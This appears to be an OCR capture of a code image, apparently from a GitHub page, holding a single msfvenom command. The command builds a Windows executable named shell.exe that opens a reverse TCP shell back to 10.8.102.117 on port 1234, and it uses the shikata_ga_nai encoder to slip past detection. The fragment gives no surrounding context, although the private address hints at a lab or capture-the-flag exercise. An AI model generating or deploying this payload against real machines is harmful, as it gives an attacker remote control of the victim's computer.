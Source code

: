 msfvenom --platform Windows -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.8.102.117 LPORT=1234 -f exe -o shell.exe


